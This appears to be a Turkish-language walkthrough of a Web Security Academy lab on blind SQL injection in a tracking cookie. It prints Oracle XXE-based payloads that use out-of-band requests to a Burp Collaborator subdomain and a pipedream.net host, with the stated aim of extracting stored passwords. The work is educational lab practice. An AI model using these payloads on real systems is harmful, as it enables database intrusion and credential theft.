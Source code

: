 ![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 38.png)

Şuan SQL Injection zafiyetinin varlığını ve veritabanı sisteminin ne olduğunu tespit edemediğimiz için başlangıçta Oracle üzerinden denemeler yapalım. Bu kısımdaki yapıdan yararlanacağız. Buradaki yapıda da daha önce ele aldığımız XXE zafiyeti ile alakalı bir konudur. 

```python
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

Buraya gelirken de anlamamız gereken bir nokta daha bulunmakta. Cookie’de bulunan TrackingId alındıktan sonra ne yapıldığını da bilmeliyiz.

![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 35.png)

Gerçek hayattan örnekleri düşünecek olursak TrackingId’nin değeri direkt olarak SELECT sorgularında geçmez, INSERT sorgularında geçmesi daha muhtemeldir. 

```python
INSERT INTO X (a,b,c) VALUES ('','','yVal16XJw78Gd1zM')
```

Bizim değerimiz buraya geliyorsa Oracle’da string birleştirmenin nasıl olduğuna bakarak ilerleyebiliriz. Oracle’da string birleştirme 'foo'||'bar’ şeklinde olmaktadır. Örneğin bizim verimiz 3. değişkende olacaksa burada bir subselect sorgusu açabilir miyiz diye düşünelim. Eğer bunu gerçekleştirebilirsek buradan ilerleyebiliriz. 

```python
INSERT INTO X (a,b,c) VALUES ('','','yVal16X||()||Jw78Gd1zM')
```

Lab ortamında da yapmamız gereken şey temelde bu mantığa dayanmaktadır. Ayrıca buradaki bazı özel karakterleri de Cookie yapısının bozulmaması için encode etmemiz gerekmektedir. Noktalı virgül → %3b ve % → %25

```python
'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://https://eo2pbauj182lj8v.m.pipedream.net/"> %25remote%3b]>'),'/l') FROM dual)||'
```

![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 39.png)

Request’in başarıyla geldiğini görebiliriz.

![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 40.png)

Bu aşamadan sonra da web uygulamasının veritabanındaki username ve password bilgilerini çıkarmamız gerkmektedir. Bunun için de şu şekilde bir sorgulama yapabiliriz;

![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 41.png)

Burada artık password değerini dışarıya çıkarabileceğimiz bir yapı ile devam edelim. 

![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 42.png)

